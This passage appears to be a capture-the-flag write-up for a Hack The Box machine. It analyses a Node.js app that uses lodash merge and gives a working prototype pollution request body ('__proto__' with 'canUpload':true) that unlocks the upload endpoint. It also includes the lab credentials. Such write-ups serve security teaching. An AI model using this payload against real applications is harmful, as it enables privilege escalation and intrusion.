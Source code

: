 ```js
console.log('Listening on port 3000...');

```

We can see several things that are interesting:
1. an admin account but its password is random generated (no luck here)
2. an /upload endpoint
3. a logging variable (messages) which is then sent to users when a get is issued to the root directory

What can we do on each:
1. Nothing
2. The user needs the **canUpload** attribute set to **True**

The third one is a more interesting one. I was discussing with my friend if we could somehow inject something through the **/todo** endpoint since it uses the request to populate the logging variable
```js
const _ = require("lodash")

// -- snip --
const message = {
    icon: '__',
};

_.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
});

messages.push(message);
```

Since i didn't knew what lodash was, i went on the google hunting... Found nothing, just that **lodash.merge** joins both dicts into the first <br>
After several time he said that he remembered existing several **prototype pollution** vulnerabilities related to this exact thing (one [here](https://hackerone.com/reports/310443)) <br>

We just need to craft a special payload to pollute **__prototype__** to always set **canUpload=True** on every obect
```bash
# REQUEST -> PUT /
PUT / HTTP/1.1
Host: unobtainium.htb:31337

--- snip ---

{"auth": {"name": "felamos", "password": "Winter2021"},"message":{"__proto__":{"canUpload":true}}}

# POST /upload response
HTTP/1.1 200 OK

--- snip ---

{"ok":true}
```
